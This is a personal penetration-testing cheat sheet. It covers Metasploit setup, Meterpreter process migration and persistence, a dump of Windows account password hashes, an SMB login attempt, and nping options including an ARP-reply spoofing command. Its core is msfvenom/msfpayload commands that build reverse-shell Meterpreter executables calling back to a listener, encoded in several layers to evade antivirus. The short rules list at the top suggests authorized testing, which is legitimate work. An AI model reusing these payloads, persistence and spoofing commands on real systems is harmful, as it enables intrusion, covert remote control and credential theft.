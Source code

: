 # rules
  * no harm
  * defiine and honor boundaries
  * consider contermeasures only after haking is complete
  * get  agreement in advance
  * document everything

# start postgres db
    * Metasploit uses PostgreSQL as its database so it needs to be launched first.

        service postgresql start
        ** You can verify that PostgreSQL is running by checking the output of ss -ant and making sure that port 5432 is listening.

        State Recv-Q Send-Q Local Address:Port Peer Address:Port
        LISTEN 0 128 :::22 :::*
        LISTEN 0 128 *:22 *:*
        LISTEN 0 128 127.0.0.1:5432 *:*
        LISTEN 0 128 ::1:5432 :::*
    * Initialise the Metasploit PostgreSQL Database

        With PostgreSQL up and running, we next need to create and initialize the msf database.

        pg_ctl init -D /var/db/postgresql/defaultdb/
        pg_ctl -D /var/db/postgresql/defaultdb -l /var/db/postgresql/defaultdb/logfile start
        su - postgres -c "pg_ctl -D /var/db/postgresql/defaultdb/ start"

        psql
        create user root;
        create database ms;

        msfdb init
    * Launch msfconsole in Kali

        Now that the PostgreSQL service is up and running and the database is initialized, you can launch msfconsole and verify database connectivity with the db_status command as shown below.

        msfconsole
        msf > db_status
        [*] postgresql connected to msf3
        msf >

         umount -a -t cifs -l


         apt-cdrom -d=/dev/sr0 add

         traceroute www.google.com 
             -f 8   //ttl
             -w 2   //wait time
             -q 4   // query count
             -n     // not use hostname,use ip address instead

    * wireshare
        ip.src == 192.168.11.1
        udp.port==68 or udp.port==67


    * Metasploit
        [-] Meterpreter Exception: Rex::Post::Meterpreter::RequestError stdapi_registry_open_key: Operation failed: Access is denied.
        [-] This script requires the use of a SYSTEM user context (hint: migrate into service process)
        find a system process get pid
        migrate pid

Administrator:500:c0ad129bd4e0e675ab0b09b894a430a5:64f2a499e4fc2846acfaa3c2381ed559:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:bc156931ebe3fa457e2260fe8b464b5c:04d8217f38d4aab7c2ad9ee56ed93b01:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:2f99608b6d63ec34d85538bdef5916e1:::

[*] Authenticating to 10.0.128.4:445|WORKGROUP as user 'Administrator'...
 
[-] FAILED! The remote host has only provided us with Guest privileges. 
    Please make sure that the correct username and password have been provided. 
    Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.


run scraper

    timeout

pessistent:
    * run persistence -X -i 50 -p 443 -r ip
    
payload:    
    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=31337 -f exe -o /var/www/payload1.exe

    msfpayload windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=33134 X > /var/www/payload1.exe

    msfpayload windows/shell_reverse_tcp lhost=10.0.128.0 lport=33134 R | msfencode -e x86/shikata_ga_nai -t exe > /var/www/payload2.exe 


    OPTIONS:

    -a <opt>  The architecture to encode as
    -b <opt>  The list of characters to avoid: '\x00\xff'
    -c <opt>  The number of times to encode the data
    -d <opt>  Specify the directory in which to look for EXE templates
    -e <opt>  The encoder to use
    -h        Help banner
    -i <opt>  Encode the contents of the supplied file path
    -k        Keep template working; run payload in new thread (use with -x)
    -l        List available encoders
    -m <opt>  Specifies an additional module search path
    -n        Dump encoder information
    -o <opt>  The output file
    -p <opt>  The platform to encode for
    -s <opt>  The maximum size of the encoded data
    -t <opt>  The output format: bash,c,csharp,dw,dword,hex,java,js_be,js_le,num,perl,pl,powershell,ps1,py,python,raw,rb,ruby,sh,vbapplication,vbscript,asp,aspx,aspx-exe,dll,elf,elf-so,exe,exe-only,exe-service,exe-small,loop-vbs,macho,msi,msi-nouac,osx-app,psh,psh-net,psh-reflection,vba,vba-exe,vbs,war
    -v        Increase verbosity
    -x <opt>  Specify an alternate executable template

    msfpayload windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=33134 R | msfencode -e x86/shikata_ga_nai -c 5 -t raw | \
        msfencode -e x86/alpha_upper -c 2 -t raw | msfencode -e x86/shikata_ga_nai -t raw -c 5 | \
        msfencode -e x86/countdown -c 5 -t exe -o /var/www/payload3.exe


    Nping 0.7.30 ( https://nmap.org/nping )
Usage: nping [Probe mode] [Options] {target specification}

TARGET SPECIFICATION:
  Targets may be specified as hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.*.1-24
PROBE MODES:
  --tcp-connect                    : Unprivileged TCP connect probe mode.
  --tcp                            : TCP probe mode.
  --udp                            : UDP probe mode.
  --icmp                           : ICMP probe mode.
  --arp                            : ARP/RARP probe mode.
  --tr, --traceroute               : Traceroute mode (can only be used with
                                     TCP/UDP/ICMP modes).
TCP CONNECT MODE:
   -p, --dest-port <port spec>     : Set destination port(s).
   -g, --source-port <portnumber>  : Try to use a custom source port.
TCP PROBE MODE:
   -g, --source-port <portnumber>  : Set source port.
   -p, --dest-port <port spec>     : Set destination port(s).
   --seq <seqnumber>               : Set sequence number.
   --flags <flag list>             : Set TCP flags (ACK,PSH,RST,SYN,FIN...)
   --ack <acknumber>               : Set ACK number.
   --win <size>                    : Set window size.
   --badsum                        : Use a random invalid checksum.
UDP PROBE MODE:
   -g, --source-port <portnumber>  : Set source port.
   -p, --dest-port <port spec>     : Set destination port(s).
   --badsum                        : Use a random invalid checksum.
ICMP PROBE MODE:
  --icmp-type <type>               : ICMP type.
  --icmp-code <code>               : ICMP code.
  --icmp-id <id>                   : Set identifier.
  --icmp-seq <n>                   : Set sequence number.
  --icmp-redirect-addr <addr>      : Set redirect address.
  --icmp-param-pointer <pnt>       : Set parameter problem pointer.
  --icmp-advert-lifetime <time>    : Set router advertisement lifetime.
  --icmp-advert-entry <IP,pref>    : Add router advertisement entry.
  --icmp-orig-time  <timestamp>    : Set originate timestamp.
  --icmp-recv-time  <timestamp>    : Set receive timestamp.
  --icmp-trans-time <timestamp>    : Set transmit timestamp.
ARP/RARP PROBE MODE:
  --arp-type <type>                : Type: ARP, ARP-reply, RARP, RARP-reply.
  --arp-sender-mac <mac>           : Set sender MAC address.
  --arp-sender-ip  <addr>          : Set sender IP address.
  --arp-target-mac <mac>           : Set target MAC address.
  --arp-target-ip  <addr>          : Set target IP address.
IPv4 OPTIONS:
  -S, --source-ip                  : Set source IP address.
  --dest-ip <addr>                 : Set destination IP address (used as an
                                     alternative to {target specification} ).
  --tos <tos>                      : Set type of service field (8bits).
  --id  <id>                       : Set identification field (16 bits).
  --df                             : Set Don't Fragment flag.
  --mf                             : Set More Fragments flag.
  --ttl <hops>                     : Set time to live [0-255].
  --badsum-ip                      : Use a random invalid checksum.
  --ip-options <S|R [route]|L [route]|T|U ...> : Set IP options
  --ip-options <hex string>                    : Set IP options
  --mtu <size>                     : Set MTU. Packets get fragmented if MTU is
                                     small enough.
IPv6 OPTIONS:
  -6, --IPv6                       : Use IP version 6.
  --dest-ip                        : Set destination IP address (used as an
                                     alternative to {target specification}).
  --hop-limit                      : Set hop limit (same as IPv4 TTL).
  --traffic-class <class> :        : Set traffic class.
  --flow <label>                   : Set flow label.
ETHERNET OPTIONS:
  --dest-mac <mac>                 : Set destination mac address. (Disables
                                     ARP resolution)
  --source-mac <mac>               : Set source MAC address.
  --ether-type <type>              : Set EtherType value.
PAYLOAD OPTIONS:
  --data <hex string>              : Include a custom payload.
  --data-string <text>             : Include a custom ASCII text.
  --data-length <len>              : Include len random bytes as payload.
ECHO CLIENT/SERVER:
  --echo-client <passphrase>       : Run Nping in client mode.
  --echo-server <passphrase>       : Run Nping in server mode.
  --echo-port <port>               : Use custom <port> to listen or connect.
  --no-crypto                      : Disable encryption and authentication.
  --once                           : Stop the server after one connection.
  --safe-payloads                  : Erase application data in echoed packets.
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m, 0.25h).
  --delay <time>                   : Adjust delay between probes.
  --rate  <rate>                   : Send num packets per second.
MISC:
  -h, --help                       : Display help information.
  -V, --version                    : Display current version number.
  -c, --count <n>                  : Stop after <n> rounds.
  -e, --interface <name>           : Use supplied network interface.
  -H, --hide-sent                  : Do not display sent packets.
  -N, --no-capture                 : Do not try to capture replies.
  --privileged                     : Assume user is fully privileged.
  --unprivileged                   : Assume user lacks raw socket privileges.
  --send-eth                       : Send packets at the raw Ethernet layer.
  --send-ip                        : Send packets using raw IP sockets.
  --bpf-filter <filter spec>       : Specify custom BPF filter.
OUTPUT:
  -v                               : Increment verbosity level by one.
  -v[level]                        : Set verbosity level. E.g: -v4
  -d                               : Increment debugging level by one.
  -d[level]                        : Set debugging level. E.g: -d3
  -q                               : Decrease verbosity level by one.
  -q[N]                            : Decrease verbosity level N times
  --quiet                          : Set verbosity and debug level to minimum.
  --debug                          : Set verbosity and debug to the max level.
EXAMPLES:
  nping scanme.nmap.org
  nping --tcp -p 80 --flags rst --ttl 2 192.168.1.1
  nping --icmp --icmp-type time --delay 500ms 192.168.254.254
  nping --echo-server "public" -e wlan0 -vvv
  nping --echo-client "public" echo.nmap.org --tcp -p1-1024 --flags ack

SEE THE MAN PAGE FOR MANY MORE OPTIONS, DESCRIPTIONS, AND EXAMPLES

nping --arp --arp-type arp-reply --arp-sender-mac a0:8d:16:55:ce:38 --arp-sender-ip 192.168.43.1 --arp-target-mac 84:4b:f5:85:91:8e --arp-target-ip 192.168.43.206 192.168.43.206
echo "this is a test from all of you" |  ncat -u 127.0.0.1 4913


* rce
  arbitrary code execution